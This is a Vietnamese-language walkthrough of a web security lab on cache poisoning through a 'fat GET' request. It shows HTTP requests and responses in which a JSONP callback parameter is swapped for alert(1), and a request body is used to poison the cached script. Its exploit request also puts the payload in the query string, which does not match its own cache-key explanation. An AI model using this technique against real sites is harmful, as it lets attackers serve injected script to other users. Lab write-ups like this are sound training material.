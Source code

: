 ### Lab: Web cache poisoning via a fat GET request
#### Analysis
- Truy cập ứng dụng
- Quan sát ta thấy khi load trang sẽ có request đến

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0af50012040dd495a292b4300068009d.web-security-academy.net
```
- **Callback** `setCountryCookie` sẽ được gọi

```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 5
X-Cache: hit
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie({"country":"United Kingdom"});
```
- Khi thay đổi callback, có thể thao túng được

```http
GET /js/geolocate.js?callback=alert(1) HTTP/2
Host: 0af50012040dd495a292b4300068009d.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 3
X-Cache: hit
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```
- **Cache key** vẫn dựa vào callback trong **query string (setCountryCookie)**

#### Exploit
- Thêm **callback** vào **body param** để đầu đầu **cache**

```http
GET /js/geolocate.js?callback=alert(1) HTTP/2
Host: 0af50012040dd495a292b4300068009d.web-security-academy.net

callback=alert(1)
```
